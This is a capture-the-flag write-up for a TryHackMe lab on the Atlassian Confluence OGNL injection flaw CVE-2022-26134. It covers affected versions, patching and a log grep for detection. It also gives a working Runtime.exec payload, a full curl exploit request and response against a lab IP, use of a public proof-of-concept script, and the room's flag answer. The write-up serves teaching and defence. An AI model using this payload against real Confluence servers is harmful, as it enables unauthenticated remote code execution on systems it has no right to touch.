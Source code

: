 ```yaml
---
weight: 3
title: "CTF writeup - Atlassian CVE-2022-26134"
date: 2022-08-28T22:16:40+08:00
lastmod: 2022-08-29T14:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Windows"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```


# Atlassian, CVE-2022-26134

![Untitled](atlassian/Untitled.png)

On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's Confluence Server and Data Center editions.

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:

```
1.3.0 -> 7.4.17
7.13.0 -> 7.13.7
7.14.0 -> 7.14.3
7.15.0 -> 7.15.2
7.16.0 -> 7.16.4
7.17.0 -> 7.17.4
7.18.0 -> 7.18.1

```

You can view the NIST entry for CVE-2022-26134 [here.](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)

# Login portal

![Untitled](atlassian/Untitled%201.png)

# Explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL

![Untitled](atlassian/Untitled%202.png)

*Thanks to [Journaldev.com](http://journaldev.com/) for this example of OGNL in use.*

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

# Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read here. To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:

```
7.4.17
7.13.7
7.14.3
7.15.2
7.16.4
7.17.4
7.18.1

```

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in /opt/atlassian/confluence/logs. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

```bash
grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22" in catalina.out

```

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located here.

Unfamiliar with Yara? Check out the Yara room on TryHackMe [here](https://tryhackme.com/room/yara).

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: 

```bash
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .
```

This will need to be URL encoded, like the following snippet below. You can use thewebsite [https://www.urlencoder.org/](https://www.urlencoder.org/) to help URL encode your payloads (note that your **curl** payload will need to end in a trailing **/** and not **$2F**):

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v [http://10.10.63.161:8090/%24{%40java.lang.Runtime%40getRuntime().exec("touch /tmp/thm")}/](http://10.10.63.161:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/)

- Trying 10.10.63.161:8090...
- Connected to 10.10.63.161 (10.10.63.161) port 8090 (#0)

> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
Host: 10.10.63.161:8090
User-Agent: curl/7.84.0
Accept: /
> 
- Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1661613209991
< Set-Cookie: JSESSIONID=106FD01E12D08A53C9C95A3DBD577ADF; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sat, 27 Aug 2022 15:13:30 GMT
<
- Connection #0 to host 10.10.63.161 left intact
```

When looking at the server, we can see that it is vulnerable:

```bash
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd
```

The file “thm” was succesfully created.

# Proof of concept

There are a couple of ways we can exploit this. One of them is to download a POC by Samy Younsi (Mwqda) written in Python and hosted on GitHub.

First, we need to download the PoC to our host. I have decided to clone to the repository using git for this room.

```bash
git clone <https://github.com/Nwqda/CVE-2022-26134>
cd CVE-2022-26134

```

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

```bash
python3.9 cve-2022-26134.py <HTTP://10.10.63.161:8090> COMMAND

```

1. Create a payload to identify what user the application is running as? What is the user?
    1. We can see in the screenshot below that the application is running as the user “confluence”.
    
    ![Untitled](Atlassian,%20CVE-2022-26134%209008f3fbb3954789ae7cb41c40c26940/Untitled%203.png)
    
2. Finally, craft a payload to retrieve the flag stored at /flag.txt on the server. What is the flag?
    1. THM{OGNL_VULN}
    
    ![Untitled](atlassian/Untitled%204.png)
    
    # Conclusion
    
    This was a brief showcase of the [CVE-2022-26134](https://nvd.nist.gov/vuln/detail/CVE-2022-26134) OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!
    
    ## Additional Reading Material
    
    - [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
    - [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)